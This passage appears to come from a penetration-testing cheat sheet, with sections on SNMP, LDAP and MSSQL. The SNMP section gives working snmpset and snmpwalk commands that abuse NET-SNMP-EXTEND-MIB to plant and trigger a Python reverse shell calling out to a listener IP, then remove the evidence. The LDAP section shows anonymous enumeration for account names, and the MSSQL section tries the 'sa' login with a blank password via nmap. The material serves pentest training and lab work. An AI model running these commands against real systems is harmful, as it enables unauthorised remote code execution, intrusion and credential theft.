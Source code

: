 ### 2.13.2 RCE with SNMP

See [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-snmp/snmp-rce)

Easy library to do this: [https://github.com/mxrch/snmp-shell.git](https://github.com/mxrch/snmp-shell.git)

```sh
# manually create reverse shell (update listener IP)
snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c private $VICTIM_IP 'nsExtendStatus."derp"' = createAndGo 'nsExtendCommand."derp"' = /usr/bin/env 'nsExtendArgs."derp"' = 'python -c "import sys,socket,os,pty;os.fork() and sys.exit();os.setsid();os.fork() and sys.exit();s=socket.create_connection((\"10.10.14.14\",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash\")"'

# trigger reverse shell by reading the OID
snmpwalk -v2c -c private $VICTIM_IP NET-SNMP-EXTEND-MIB::nsExtendObjects

# delete the reverse shell command from the SNMP table
snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c private $VICTIM_IP 'nsExtendStatus."derp"' = destroy
```

This abuses the NET-SNMP-EXTEND-MIB functionality. See [technical writeup](https://mogwailabs.de/en/blog/2019/10/abusing-linux-snmp-for-rce/)

## LDAP 389, 636, 3268

```shell 
#we have a valuble bookmark/hutch

#enumerate info without authentication look for users/passwords
ldapsearch -x -H ldap://192.168.242.122 -b "dc=hutch,dc=offsec" > ldap.txt

cat ldap.txt | grep -i "samaccountname"
cat ldap.txt | grep -i "description"


```
## MSSQL - 1443

Microsoft SQL Server (MSSQL) is a relational database management system developed by Microsoft. It supports storing and retrieving data across a network (including the Internet).

```sh
# check for known vulns
searchsploit "microsoft sql server"

# if you know nothing about it, try 'sa' user w/o password:
nmap -v -n --script="safe and ms-sql-*" --script-args="mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER" -sV -p 1433 -oA nmap/safe-ms-sql $VICTIM_IP
# if you don't have creds, you can try to guess them, but be careful not to block
# accounts with too many bad guesses
```
